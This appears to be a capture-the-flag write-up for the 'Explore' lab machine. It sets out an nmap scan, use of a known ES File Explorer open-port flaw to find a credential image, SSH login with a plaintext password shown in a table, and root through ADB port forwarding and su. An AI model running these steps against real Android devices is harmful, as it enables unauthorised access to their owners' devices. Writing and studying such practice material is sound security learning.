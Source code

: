# Explore

## Explore

## Credentials

| User   | Password            | Note                            |
| ------ | ------------------- | ------------------------------- |
| kristi | Kr1sT!5h@Rp3xPl0r3! | via ES File Manager http server |
|        |                     |                                 |
|        |                     |                                 |

## Enumeration

### Nmap scan

```bash
# Nmap 7.91 scan initiated Sun Jun 27 08:21:45 2021 as: nmap -p2222,39541,42135,59777 -sV -sC -O -oA nmap/detailed 10.129.132.74
Nmap scan report for 10.129.132.74
Host is up (0.097s latency).

PORT      STATE SERVICE VERSION
2222/tcp  open  ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey:
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
39541/tcp open  unknown
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:21:57 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest:
|     HTTP/1.1 412 Precondition Failed
|     Date: Sun, 27 Jun 2021 12:21:57 GMT
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.0 501 Not Implemented
|     Date: Sun, 27 Jun 2021 12:22:02 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:22:18 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:22:02 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:22:18 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:22:18 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ??random1random2random3random4
|   TerminalServerCookie:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 12:22:18 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|_    Cookie: mstshash=nmap
42135/tcp open  http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=6/27%Time=60D86D61%P=x86_64-pc-linux-gnu%r(NU
SF:LL,24,"SSH-2\\.0-SSH\\x20Server\\x20-\\x20Banana\\x20Studio\\r\\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port39541-TCP:V=7.91%I=7%D=6/27%Time=60D86D60%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,AA,"HTTP/1\\.0\\x20400\\x20Bad\\x20Request\\r\\nDate:\\x20Sun,\\x20
SF:27\\x20Jun\\x202021\\x2012:21:57\\x20GMT\\r\\nContent-Length:\\x2022\\r\\nConten
SF:t-Type:\\x20text/plain;\\x20charset=US-ASCII\\r\\nConnection:\\x20Close\\r\\n\\
SF:r\\nInvalid\\x20request\\x20line:\\x20")%r(GetRequest,5C,"HTTP/1\\.1\\x20412\\
SF:x20Precondition\\x20Failed\\r\\nDate:\\x20Sun,\\x2027\\x20Jun\\x202021\\x2012:2
SF:1:57\\x20GMT\\r\\nContent-Length:\\x200\\r\\n\\r\\n")%r(HTTPOptions,B5,"HTTP/1\\
SF:.0\\x20501\\x20Not\\x20Implemented\\r\\nDate:\\x20Sun,\\x2027\\x20Jun\\x202021\\x
SF:2012:22:02\\x20GMT\\r\\nContent-Length:\\x2029\\r\\nContent-Type:\\x20text/pla
SF:in;\\x20charset=US-ASCII\\r\\nConnection:\\x20Close\\r\\n\\r\\nMethod\\x20not\\x2
SF:0supported:\\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\\.0\\x20400\\x20Bad\\x20R
SF:equest\\r\\nDate:\\x20Sun,\\x2027\\x20Jun\\x202021\\x2012:22:02\\x20GMT\\r\\nCont
SF:ent-Length:\\x2039\\r\\nContent-Type:\\x20text/plain;\\x20charset=US-ASCII\\r
SF:\\nConnection:\\x20Close\\r\\n\\r\\nNot\\x20a\\x20valid\\x20protocol\\x20version:
SF:\\x20\\x20RTSP/1\\.0")%r(Help,AE,"HTTP/1\\.0\\x20400\\x20Bad\\x20Request\\r\\nDa
SF:te:\\x20Sun,\\x2027\\x20Jun\\x202021\\x2012:22:18\\x20GMT\\r\\nContent-Length:\\
SF:x2026\\r\\nContent-Type:\\x20text/plain;\\x20charset=US-ASCII\\r\\nConnection
SF::\\x20Close\\r\\n\\r\\nInvalid\\x20request\\x20line:\\x20HELP")%r(SSLSessionReq
SF:,DD,"HTTP/1\\.0\\x20400\\x20Bad\\x20Request\\r\\nDate:\\x20Sun,\\x2027\\x20Jun\\x
SF:202021\\x2012:22:18\\x20GMT\\r\\nContent-Length:\\x2073\\r\\nContent-Type:\\x20
SF:text/plain;\\x20charset=US-ASCII\\r\\nConnection:\\x20Close\\r\\n\\r\\nInvalid\\
SF:x20request\\x20line:\\x20\\x16\\x03\\0\\0S\\x01\\0\\0O\\x03\\0\\?G\\?\\?\\?,\\?\\?\\?`~\\?
SF:\\0\\?\\?{\\?\\?\\?\\?w\\?\\?\\?\\?<=\\?o\\?\\x10n\\0\\0\\(\\0\\x16\\0\\x13\\0")%r(TerminalSe
SF:rverCookie,CA,"HTTP/1\\.0\\x20400\\x20Bad\\x20Request\\r\\nDate:\\x20Sun,\\x202
SF:7\\x20Jun\\x202021\\x2012:22:18\\x20GMT\\r\\nContent-Length:\\x2054\\r\\nContent
SF:-Type:\\x20text/plain;\\x20charset=US-ASCII\\r\\nConnection:\\x20Close\\r\\n\\r
SF:\\nInvalid\\x20request\\x20line:\\x20\\x03\\0\\0\\*%\\?\\0\\0\\0\\0\\0Cookie:\\x20msts
SF:hash=nmap")%r(TLSSessionReq,DB,"HTTP/1\\.0\\x20400\\x20Bad\\x20Request\\r\\nD
SF:ate:\\x20Sun,\\x2027\\x20Jun\\x202021\\x2012:22:18\\x20GMT\\r\\nContent-Length:
SF:\\x2071\\r\\nContent-Type:\\x20text/plain;\\x20charset=US-ASCII\\r\\nConnectio
SF:n:\\x20Close\\r\\n\\r\\nInvalid\\x20request\\x20line:\\x20\\x16\\x03\\0\\0i\\x01\\0\\0
SF:e\\x03\\x03U\\x1c\\?\\?random1random2random3random4\\0\\0\\x0c\\0/\\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Oracle VM Server 3.4.2 (Linux 4.1) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), CyanogenMod 11 (Android 4.4.4) (93%), Android 4 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Device: phone

OS and Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sun Jun 27 08:23:36 2021 -- 1 IP address (1 host up) scanned in 111.16 seconds

```

This is probably an `android` device because of the `banana studio` ssh server

## ES File Manager exploitation

Vulnerable version of ES File Manager exposes open port to the external network and allow to execute commands to list files etc.

<figure><img src="../../.gitbook/assets/Pasted_image_20210627143933 (1).png" alt=""><figcaption></figcaption></figure>

Source [https://github.com/fs0c131y/ESFileExplorerOpenPortVuln](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)

One of the pictures was file named `creds.jpg`

<figure><img src="../../.gitbook/assets/Pasted_image_20210627144156.png" alt=""><figcaption></figcaption></figure>

The file was saved on the `sdcard` inside default folder with pictures `DCIM`

<figure><img src="../../.gitbook/assets/Pasted_image_20210627144338 (1).png" alt=""><figcaption></figcaption></figure>

With obtained credentials login via `SSH` on port 2222 was possible.

## Privilege Escalation

The 5555 port was the adb `Androiid Debug Bridge`, there was some kind of firewall that don't allow connection from the external network but with `SSH` it is possible to port forward.

```bash
ssh -L 5555:127.0.0.1:5555 kristi@10.129.132.74 -N

```

Then the port 5555 is accessible from the local machine, so ADB can be attached.

```bash
adb connect 127.0.0.1:5555
adb -s 127.0.0.1:5555 shell
:/ $ su
:/ #
```

